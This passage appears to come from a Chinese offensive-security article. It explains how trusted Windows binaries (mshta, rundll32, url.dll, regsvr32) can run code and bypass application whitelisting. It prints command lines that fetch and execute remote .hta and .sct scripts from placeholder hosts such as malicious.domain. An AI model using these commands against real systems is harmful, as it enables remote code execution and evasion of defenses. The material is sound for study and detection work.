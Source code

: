 还有更多可能的代码执行选项，它们需要本地执行而不是远程执行，因此像 MSBuild 一样，这些必须与横向移动技术配合使用。

Mshta

Mshta.exe 是 Windows 上默认安装的可执行文件，它允许执行. hta 文件。 .hta 文件是 Microsoft HTML 应用程序文件，允许在 HTML 应用程序中执行 Visual Basic 脚本。关于 Mshta 的好处是，它允许通过 URL 执行，并且由于它是受信任的 Microsoft 可执行文件，因此应绕过默认的应用白名单。

mshta.exe https://malicious.domain/runme.hta

Rundll32

这是相对众所周知的。 Rundll32.exe 再次是受信任的 Windows 二进制文件，用于执行 DLL 文件。可以通过 UNC WebDAV 路径甚至通过 JavaScript 来指定 DLL。

rundll32.exe javascript:"..\mshtml,RunHTMLApplication";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"

由于它正在运行 DLL，因此您可以将其与其他一些 DLL 结合使用，以实现不同的技术：

URL.dll: 可以运行. url（快捷方式）文件；也可以运行. hta 文件

rundll32.exe url.dll,OpenURL "C:\Windows\Temp\test.hta"

ieframe.dll: 可以运行. url 文件

[InternetShortcut]

URL=file:///c:\windows\system32\cmd.exe

Regsvr32  
注册服务器用于为注册表注册和注销 DLL。 Regsrv32.exe 是经过签名的 Microsoft 二进制文件，可以接受 URL 作为参数。具体来说，它将运行一个. sct 文件，该文件是一个 XML 文档，允许注册 COM 对象。

regsvr32 /s /n /u /i:http://server/file.sct scrobj.dll

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDCu9vYaicsKXmibIlxHDeXmK8yoDsVrSMpI3RgS4JPtgGPdqXToibeNYGEMgk5WznIayx4hwMd8sVgJA/640?wx_fmt=jpeg)